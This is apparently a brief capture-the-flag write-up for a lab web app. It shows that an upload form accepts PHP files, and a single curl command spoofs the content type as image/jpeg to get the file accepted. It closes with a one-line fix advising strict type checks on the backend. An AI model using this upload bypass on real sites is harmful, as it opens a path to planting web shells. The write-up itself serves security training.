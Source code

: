 # 12_XSS_attack_upload

Any type of file can be uploaded

## Method & Manipulation

Go to http://192.168.1.59/?page=upload  
We can inspect the form input button and see it is set to `type=file`

## Manipulation

This means a php file can be uploaded.  
Curl will be used for this
```bash
curl -X POST -H 'Content-Type: multipart/form-data' -F 'Upload=send' -F 'uploaded=@empty.php;type=image/jpeg' http://192.168.1.59/index.php\?page\=upload\#
```

This returns an html page with the flag

## Resolve

Always use strict types when uploading files & check on the backend as well.

## Resources

https://labs.f-secure.com/blog/getting-real-with-xss/
